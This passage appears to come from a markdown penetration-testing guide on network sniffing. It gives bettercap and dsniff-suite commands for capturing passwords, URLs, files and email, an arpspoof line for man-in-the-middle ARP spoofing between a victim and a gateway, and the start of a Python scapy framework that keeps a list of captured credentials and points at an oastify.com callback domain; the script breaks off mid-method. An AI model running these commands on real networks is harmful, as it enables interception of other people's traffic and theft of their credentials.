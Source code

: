 ```bash
# Capture specific traffic
set net.sniff.filter "host rnivqlhaedmb4yc3ezjzgji7xy3prff4.oastify.com"
net.sniff on
```

### 🔧 Dsniff Suite
**Description:** Collection of tools for network auditing and penetration testing including dsniff, urlsnarf, filesnarf, and mailsnarf.

**Example Usage:**
```bash
# Password sniffing from network traffic
dsniff -i eth0

# URL monitoring and logging
urlsnarf -i eth0

# File extraction from network streams
filesnarf -i eth0

# Email monitoring and capture
mailsnarf -i eth0

# ARP spoofing with arpspoof
arpspoof -i eth0 -t 192.168.1.100 192.168.1.1

# Monitor target site connections
dsniff -i eth0 -s 1024 | grep "oastify.com"
```

---

## Automation Scripts and Advanced Techniques

### 🔧 Automated Network Reconnaissance Script
```python
#!/usr/bin/env python3
import scapy.all as scapy
import requests
import time
import threading
from collections import defaultdict

class NetworkSniffingFramework:
    def __init__(self, interface="eth0"):
        self.interface = interface
        self.target_site = "https://rnivqlhaedmb4yc3ezjzgji7xy3prff4.oastify.com"
        self.captured_credentials = []
        self.network_map = defaultdict(list)
        self.active_connections = {}
    
    def discover_hosts(self, network="192.168.1.0/24"):
        """Discover active hosts on network"""
        print(f"🔍 Discovering hosts on {network}")
        
        # Create ARP request
        arp_request = scapy.ARP(pdst=network)
        broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
        arp_request_broadcast = broadcast / arp_request
        
        # Send request and capture responses
        answered_list = scapy.srp(arp_request_broadcast, timeout=2, verbose=False)[0]
        
```